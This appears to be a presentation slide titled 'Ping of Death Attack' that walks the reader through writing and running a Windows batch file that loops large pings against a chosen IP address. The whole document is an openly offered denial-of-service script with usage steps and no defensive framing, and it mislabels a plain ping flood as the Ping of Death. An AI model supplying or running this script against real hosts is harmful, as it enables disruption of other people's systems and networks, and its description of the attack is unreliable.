

# Ping of Death Attack
Here are the steps of this attack:
Open Notepad
Copy the following text on the notepad
:loop
ping <IP Address> -l 65500 -w 1 -n 1
goto :loop
In the above command, replace <IP Address> with an IP address.
Save the Notepad with any name. Let’s say dos.txt
Right click on the dos.txt and click on rename.
Change the extension from .txt to .bat
So, now the file name should be dos.bat
Double click on it and you will see a command prompt running with a lot of pings.